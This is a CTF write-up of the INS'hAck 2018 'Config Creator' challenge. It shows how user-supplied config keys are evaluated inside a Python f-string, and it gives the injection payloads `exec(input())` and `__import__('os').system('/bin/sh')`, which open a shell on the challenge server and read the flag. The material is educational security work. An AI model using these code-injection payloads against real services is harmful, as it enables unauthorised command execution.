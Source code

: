 ```yaml
---
layout: post
title:  "INS'hAck CTF 2018 - Config Creator"
date:   2018-04-08 19:00
categories: [INShAck2018]
tags: [Pwn]
author: jbz
---
```


>I've just written a small utility to create a config file (which are sooo painful to write by hand, right?).
>
>Care to have a look?
>
>nc config-creator.ctf.insecurity-insa.fr 10000

That's all: no binary, no libc. Let's try to interact with the program.
```
$ nc config-creator.ctf.insecurity-insa.fr 10000
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
```
We are presented with a menu with several options, we can register a new config entry, edit an existing one, etc...this really looks like a typical heap exploitation challenge.

Let's explore the options and see what happens.
```
Choice? 1

Config key? test
Config value? test

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 3

template:
f"""
configuration [
    test = {test};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:

configuration [
    test = test;
]
```
First we create a couple key:value with function `1` and then we can use functions `3` and `4` to access it.

Let's try editing the config entry with function `2`.
```
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 2

Config key? test
Config value? test2

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 3

template:
f"""
configuration [
    test = {test};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:

configuration [
    test = test2;
]
```
Everything as expected. What if we send an empty input?
```
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 1

Config key? 
Config value? 

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 3

template:
f"""
configuration [
    test = {test};
     = {};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:
f-string: empty expression not allowed (<string>, line 6)
An error occurred, sorry
```
Uh? What's this? After a quick search we can find that this is a Python3 feature called [f-strings](https://docs.python.org/3/reference/lexical_analysis.html#f-strings).

So, why not just try inserting some Python code and see if it is executed?
```
Choice? 1

Config key? exit()
Config value? test

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 3

template:
f"""
configuration [
    exit() = {exit()};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:
$ 
```
It seems to work, the connection is closed!

If we play a little bit more with the program, we can see that some characters (like spaces, dots, underscores, quotes, etc...) are filtered out when we input the key, however round parenthesis are allowed and that's more than enough to get a shell: `exec(input())`.
```
$ nc config-creator.ctf.insecurity-insa.fr 10000
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 1

Config key? exec(input())  
Config value? 1337

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:
__import__('os').system('/bin/sh')
id
uid=1000(config-creator) gid=1000(config-creator) groups=1000(config-creator)
ls
app.py
flag.txt
cat flag.txt
INSA{dont_get_me_wrong_i_love_python36}
```
You can find the source code of the challenge and a python exploit for it [here](https://github.com/ndaprela/CTF/tree/master/2018/INShAck2018/Config_Creator).